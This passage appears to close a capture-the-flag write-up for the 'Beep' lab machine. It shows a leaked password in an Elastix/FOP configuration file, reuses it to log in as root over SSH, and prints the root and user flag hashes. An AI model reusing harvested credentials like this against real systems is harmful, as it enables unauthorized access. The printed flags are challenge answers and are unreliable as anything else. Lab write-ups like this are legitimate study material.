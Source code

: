```
# FOPDISABLE: Set to true to disable FOP in interface and retrieve_conf.  Useful for sqlite3 
# or if you don't want FOP.
#
#FOPRUN=true
FOPWEBROOT=/var/www/html/panel
#FOPPASSWORD=passw0rd
FOPPASSWORD=jEhdIekWmdjE
```

#### 2. Get shell as root
User root/ jEhdIekWmdjE to ssh into beep:
```
ssh root@10.10.10.7
root@10.10.10.7's password: 
Last login: Tue Jul 16 11:45:47 2019

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# whoami
root
[root@beep ~]# ls
anaconda-ks.cfg  elastix-pr-2.2-1.i386.rpm  install.log  install.log.syslog  postnochroot  root.txt  webmin-1.570-1.noarch.rpm
[root@beep ~]# cat /etc/redhat-release 
CentOS release 5.6 (Final)
[root@beep ~]# ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 16436 qdisc noqueue 
link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
inet 127.0.0.1/8 scope host lo
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast qlen 1000
link/ether 00:50:56:b9:5d:e4 brd ff:ff:ff:ff:ff:ff
inet 10.10.10.7/24 brd 10.10.10.255 scope global eth0
[root@beep ~]# cd /root/
[root@beep ~]# ls
anaconda-ks.cfg  elastix-pr-2.2-1.i386.rpm  install.log  install.log.syslog  postnochroot  root.txt  webmin-1.570-1.noarch.rpm
[root@beep ~]# cat root.txt 
d88e006123842106982acce0aaf453f0
[root@beep ~]# cd /home/
[root@beep home]# ls
fanis  spamfilter
[root@beep home]# cd fanis/
[root@beep fanis]# ls
user.txt
[root@beep fanis]# cat user.txt
aeff3def0c765c2677b94715cffa73ac
```
---